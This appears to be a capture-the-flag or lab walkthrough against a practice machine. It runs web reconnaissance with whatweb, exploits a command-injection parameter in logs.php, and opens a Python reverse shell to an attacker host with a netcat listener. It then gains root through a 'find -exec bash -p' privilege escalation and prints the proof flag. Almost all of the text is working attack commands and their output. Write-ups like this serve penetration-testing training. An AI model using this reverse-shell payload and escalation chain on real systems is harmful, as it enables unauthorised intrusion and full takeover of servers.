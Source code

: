 Run whatweb :
````bash
whatweb -a 4 192.168.229.20
````

Return :
````text
http://192.168.229.20 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.229.20]
````

On web service we have :

* index.html
* robots.txt
* server-status
* logs.php

Download files :
````bash
wget http://192.168.229.20/index.html
wget http://192.168.229.20/robots.txt
wget http://192.168.229.20/server-status
wget http://192.168.229.20/logs.php
````

Execute cmd :
http://192.168.229.20/logs.php?cmd=whoami
123soleil


Get reverse shell :
nc -nlvp 6666
http://192.168.229.20/logs.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.229",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'


Priv exec :
find -exec bash -p \;
whoami
root

cat proof.txt
00e70afdbc33a04b59cc853377d8e917




